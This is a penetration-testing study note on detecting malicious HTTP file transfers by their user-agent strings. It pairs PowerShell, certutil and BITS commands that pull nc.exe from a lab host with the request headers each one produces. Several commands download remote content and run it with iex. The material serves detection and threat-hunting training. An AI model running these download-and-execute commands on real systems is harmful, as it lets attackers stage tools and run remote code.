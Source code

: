 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

# Detection
Command-line detection based on blacklisting is straightforward to bypass, even using simple case obfuscation. However, although the process of whitelisting all command-lines in a particular environment is initially time-consuming, it is very robust and allows for quick detection and alerting of any unusual command-lines.

Most client-server protocols require the client and server to negotiate how content will be delivered before exchanging information. This is common with the HTTP protocol. There is a need for interoperability amongst different web server and web browser types to ensure that users have the same experience no matter the browser they are using. HTTP clients are most readily recognized by their user agent string, which the server uses to identify which HTTP client is connecting to it, for example, Firefox, Chrome, etc.

User agents are not only used to identify web browsers, but anything acting as an HTTP client and connecting to a web server via HTTP can have a user agent string (i.e., cURL, a custom Python script, or common tools such as sqlmap, or nmap).

Organizations can take some steps to identify potential user agent strings by first building a list of known legitimate user agent strings, user agents used by default operating system processes, common user agents used by update services such as Windows update and antivirus updates, etc. These can be fed into a SIEM tool used for threat hunting to filter out legitimate traffic and focus on anomalies that may indicate suspicious behavior. Any suspicious-looking user agent strings can then be further investigated to determine whether they were used to perform some malicious action. This website is very useful for identifying common user agent strings. A list of user agent strings is available here.

Malicious file transfers can also be detected by their user agents. The following user agents/headers were observed from common HTTP transfer techniques (tested on Windows 10, version 10.0.14393, with PowerShell 5).

## Invoke-WebRequest - Client
````powershell
PS C:\htb> Invoke-WebRequest http://10.10.10.32/nc.exe -OutFile "C:\Users\Public\nc.exe" 
PS C:\htb> Invoke-RestMethod http://10.10.10.32/nc.exe -OutFile "C:\Users\Public\nc.exe"
````
## Invoke-WebRequest - Server
````http
GET /nc.exe HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.14393.0
````
## WinHttpRequest - Client
````powershell
PS C:\htb> $h=new-object -com WinHttp.WinHttpRequest.5.1;
PS C:\htb> $h.open('GET','http://10.10.10.32/nc.exe',$false);
PS C:\htb> $h.send();
PS C:\htb> iex $h.ResponseText
````
## WinHttpRequest - Server
````http
GET /nc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
User-Agent: Mozilla/4.0 (compatible; Win32; WinHttp.WinHttpRequest.5)
````
## Msxml2 - Client
````powershell
PS C:\htb> $h=New-Object -ComObject Msxml2.XMLHTTP;
PS C:\htb> $h.open('GET','http://10.10.10.32/nc.exe',$false);
PS C:\htb> $h.send();
PS C:\htb> iex $h.responseText
````
## Msxml2 - Server
````http
GET /nc.exe HTTP/1.1
Accept: */*
Accept-Language: en-us
UA-CPU: AMD64
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; Win64; x64; Trident/7.0; .NET4.0C; .NET4.0E)
````
## Certutil - Client
````powershell
PS C:\htb> certutil -urlcache -split -f http://10.10.10.32/nc.exe 
PS C:\htb> certutil -verifyctl -split -f http://10.10.10.32/nc.exe
````
## Certutil - Server
````http
GET /nc.exe HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Accept: */*
User-Agent: Microsoft-CryptoAPI/10.0
````
## BITS - Client
````powershell
PS C:\htb> Import-Module bitstransfer;
PS C:\htb> Start-BitsTransfer 'http://10.10.10.32/nc.exe' $env:temp\t;
PS C:\htb> $r=gc $env:temp\t;
PS C:\htb> rm $env:temp\t; 
PS C:\htb> iex $r
````
## BITS - Server
````http
HEAD /nc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Encoding: identity
User-Agent: Microsoft BITS/7.8
````


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`

